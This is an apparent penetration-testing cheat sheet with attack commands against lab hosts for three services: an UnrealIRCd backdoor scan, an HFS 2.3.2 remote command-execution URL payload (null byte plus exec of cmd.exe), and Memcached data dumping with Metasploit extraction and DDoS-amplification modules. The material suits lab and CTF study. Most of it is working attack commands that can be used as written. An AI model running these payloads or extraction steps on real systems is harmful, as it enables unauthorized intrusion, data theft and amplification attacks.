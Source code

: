 ```bash
# enum the version
## USER command: USER <user> <host> <server> :<Password>
nc -nv $tip 6697
PASS test123
NICK test

USER test hostname servername :test123

# nmap sv scan, backdoor
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 6697,8067 irked.htb
```

## 9505-HFS
[bethany]

hfs 2.3.2
[htb-optimum-writeup](https://medium.com/@nmappn/htb-optimum-writeup-9680466f01f7)

**HFS rec check with tcmdump**
```bash
[http://10.11.1.50:9505/?search=%00](http://10.11.1.50:9505/?search=%00){.+exec|cmd.exe+/c+ping+/n+1+192.168.119.196.}

# check icmp pack
tcpdump -i tun0 icmp and src 10.11.1.50

```

## 11211-Memcache
+ mannual / auto enum.
+ find slabs with active items
+ get key names of the slabs detected before
+ Ex-filtrate the saved data by getting the key names
+ memcached poison with pickle, pg-shifty.

```bash
PORT      STATE SERVICE
11211/tcp open  unknown

# data may be appearing and disappearing
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'

# nmap auto 
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible 

```
